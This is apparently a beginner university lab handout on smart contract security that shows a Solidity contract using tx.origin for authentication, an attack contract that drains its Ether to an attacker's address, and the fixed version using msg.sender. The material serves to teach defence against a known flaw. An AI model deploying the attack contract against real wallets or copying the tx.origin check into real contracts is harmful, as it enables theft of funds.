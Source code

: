 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming.

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions (5 Minutes)
1. In Solidity, there is a global variable called `tx.origin`, which contains the address of the account that originally sent the call or the transaction. In this lab, we will explore why using `tx.origin` as a form of authentication can lead to exploitation.
2. First, we begin by creating a contract with a simple purpose such as temporarily holding Ether for the owner (just as legitimate contracts in use hold Ether to enable various functions). Copy the following code into [Remix]:  
    [_Phishable.sol_][Phishable.sol]
    ```solidity
    pragma solidity ^0.5.1;

    contract Phishable {
        address public owner;
        constructor (address _owner) public {
            owner = _owner;
        }

        function () external payable {} // collect ether

        function withdrawAll(address payable _recipient) public {
            require(tx.origin == owner);
            _recipient.transfer(address(this).balance);
        }
    }
    ```
3. We then create another contract to attack `Phishable.sol`. In a new document, create `AttackContract.sol`:  
    [_AttackContract.sol_][AttackContract.sol]
    ```solidity
    pragma solidity ^0.5.1;

    import "browser/Phishable.sol";

    contract AttackContract {
        Phishable phishableContract;

        address payable attacker; // The attacker's address to receive funds

        constructor (Phishable _phishableContract, address payable _attackerAddress) public {
            phishableContract = _phishableContract;
            attacker = _attackerAddress;
        }

        function () external payable {
            phishableContract.withdrawAll(attacker);
        }
    }
    ```
4. In `AttackContract`, we see that whenever this contract is paid an amount, it then calls the `Phishable` contract’s `withdrawAll` function providing the address to send funds to. The `Phishable` contract mistakenly authorizes this transaction, because its owner is the originator of the transaction (from paying the attacker’s contract). Why would the owner pay the attacker’s contract? Perhaps the attacker provided the contract’s address as their payment address in a private transaction with the owner of `Phishable`. This is an example of a spearphishing attack, where the attacker would have identified that `Phishable` is phishable and then organized a plan of attack to have the owner of the `Phishable` contract be involved in a transaction that would allow this attack to occur. Now, assume you are the owner of Phishable, but you see this coming before you deploy; how would you fix it?
5. We can prevent an attack like this (that is, exploiting the use of tx.origin for authentication purposes) by checking that the sender is the owner instead. In the `Phishable.sol` contract, change the line `require(tx.origin == owner);` to `require(msg.sender == owner);`. Now, when `AttackContract` is paid an amount by the owner of `Phishable` and calls `Phishable`’s `withdrawAll` function, the funds will not be transferred to the attacker’s address, since they are not the owner. We'll call this updated version `UnPhishable`. The code should look like this:  
    [_UnPhishable.sol_][UnPhishable.sol]
    ```solidity
    pragma solidity ^0.5.1;

    contract UnPhishable {
        address public owner;
        constructor (address _owner) public {
            owner = _owner;
        }

        function () external payable {} // collect ether

        function withdrawAll(address payable _recipient) public {
            require(msg.sender == owner);
            _recipient.transfer(address(this).balance);
        }
    }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[Phishable.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/Phishable.sol
[AttackContract.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/AttackContract.sol
[UnPhishable.sol]: https://github.com/UHMC/module-9-lab-beginner/blob/master/UnPhishable.sol
